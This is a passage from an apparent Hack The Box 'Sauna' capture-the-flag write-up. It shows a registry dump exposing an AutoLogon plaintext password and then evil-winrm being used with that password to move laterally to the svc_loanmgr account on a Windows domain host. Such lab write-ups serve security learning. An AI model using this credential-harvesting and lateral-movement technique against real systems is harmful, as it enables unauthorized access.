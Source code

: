 ```text
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x303697c4
    ShutdownFlags    REG_DWORD    0x13
    DisableLockWorkstation    REG_DWORD    0x0
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

For some reason there was a discrepancy between the username of the account that had auto-logon enabled \(`svc_loanmanager`\), and the account that had a user folder on the machine \(`svc_loanmgr`\).  I decided to try logging in using `svc_loanmgr` since that was the name of the user's folder.

### Moving laterally to user `svc_loanmgr`

```text
zweilos@kalimaa:~/htb/sauna$ evil-winrm -i 10.10.10.175 -u svc_loanmgr
Enter Password: Moneymakestheworldgoround!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_loanmgr\Documents>whoami /all

USER INFORMATION
----------------

User Name                   SID
=========================== ==============================================
egotisticalbank\svc_loanmgr S-1-5-21-2966785786-3096785034-1186376766-1108


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
```